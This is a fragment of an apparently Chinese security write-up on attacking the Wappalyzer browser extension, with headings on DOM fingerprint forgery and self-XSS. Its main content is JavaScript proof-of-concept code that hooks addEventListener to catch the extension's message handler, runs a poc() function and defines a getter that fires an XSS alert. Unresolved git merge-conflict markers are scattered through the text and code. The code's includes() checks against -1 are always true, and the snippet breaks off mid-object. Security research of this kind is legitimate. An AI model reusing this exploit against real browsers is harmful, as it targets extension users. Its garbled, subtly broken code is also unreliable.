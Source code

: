[![](assets/1710299859-271f70a0c2dc1836ec1e1491d916ff2a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240311222225-c8a8b402-dfb2-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

# Dom 指纹伪造

异曲同工

# Self Xss

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
// hook addEventListener
let rel = addEventListener;
addEventListener = (name, func, opt) => {
  if (
    name === "message" &&
    func &&
    func.toString().includes("wappalyzer.technologies") !== -1 &&
    func.toString().includes("removeEventListener") !== -1 &&
    func.toString().includes("__UNDEFINED__") !== -1 &&
    func.toString().includes("postMessage") !== -1
  ) {
    rel(name, func, opt);
    poc();
  } else {
    rel(name, func, opt);
  }
};

window.bad = {
  get xss() {
    alert("xss!");
  },
```